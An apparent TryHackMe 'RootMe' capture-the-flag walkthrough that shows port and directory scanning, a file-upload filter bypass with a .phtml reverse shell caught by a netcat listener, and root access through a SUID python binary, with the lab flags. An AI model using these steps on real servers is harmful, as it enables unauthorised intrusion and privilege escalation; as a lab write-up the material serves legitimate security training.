


# RootMe - Walkthrough


## TARGET : 10.10.152.136
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.152.136`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website



`gobuster dir -u http://10.10.128.51/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.128.51/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.128.51/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.128.51/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.128.51/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.128.51/panel/]
```

## Panel

Panel is a uploadify panel. We can upload a php file and get a reverse shell.



It looks like we can't upload a php file. So we can try to upload a php file with a different extension.

`revshell.phtml`


In `/uploads` we can see our file.

`nc -lnvp 9001`

```
$ whoami
www-data
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$ 
```

## Privilege Escalation

`find / -type f -perm /4000 2>/dev/nul`

```
/usr/bin/python
```

There is a SUID bit on python. We can use [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) to get root.

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

